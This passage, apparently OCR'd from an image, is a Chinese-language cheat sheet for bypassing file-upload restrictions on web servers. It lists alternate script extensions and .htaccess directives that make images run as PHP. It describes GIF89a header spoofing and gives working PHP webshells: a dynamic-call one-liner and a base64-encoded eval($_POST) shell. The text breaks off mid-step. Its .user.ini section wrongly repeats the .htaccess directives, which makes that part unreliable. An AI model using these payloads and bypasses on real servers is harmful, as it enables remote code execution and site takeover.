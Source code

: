 asp/aspx:
asp,aspx,asa,asax,ascx,ashx,asmx,cer,aSp,aSpx,aSa,aSax,aScx,aShx,aSmx,cEr

php :
php,php5,php4,php3,php2,pHp,pHp5,pHp4,pHp3,pHp2,html,htm,phtml,pht,Html,Htm,pHtml

jsp :
jsp,jspa,jspx,jsw,jsv,jspf,jtml,jSp,jSpx,jSpa,jSw,jSv,jSpf,jHtml

可用Burp fuzz测试

4.`.htaccess和.user.ini`绕过黑名单

`.htaccess使用条件：`

.htaccess只适用于apache,allow override all;loadmodule rewrite_module modules/mod_rewrite.so

.htaccess中

AddType application/x-httpd-php .jpg
将所有后缀为.jpg的文件作为php文件解析

<FilesMatch "BaiZe">
setHandler application/x-httpd-phpBZ
</FilesMatch>  
将所有文件名包含BaiZe的文件作为php文件解析

`.user.ini使用条件：`

AddType application/x-httpd-php .jpg
将所有后缀为.jpg的文件作为php文件解析

<FilesMatch "BaiZe">
setHandler application/x-httpd-phpBZ

将所有文件名包含BaiZe的文件作为php文件解析

5.`文件头限制`

文件头检测，上传图片马，再修改后缀为可解析脚本语言；或者上传一句话木马并在文件中添加正常格式文件头，例如：GIF89a

6.`危险函数检测`

一般为waf对上传文件的内容进行检测

 - 可以使用动态调用绕过

```
<?php $_GET['0']($_GET['1']);?>
此方法不能绕过disable_function
```

 - 上传编码后的webshell配合.htaccess来解析
 
 - 上传编码后的webshell，再另外上传一个脚本文件解码webshell并写入新文件
 
例如先上传1.php

```
PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=
``` 

上传后再上传2.php
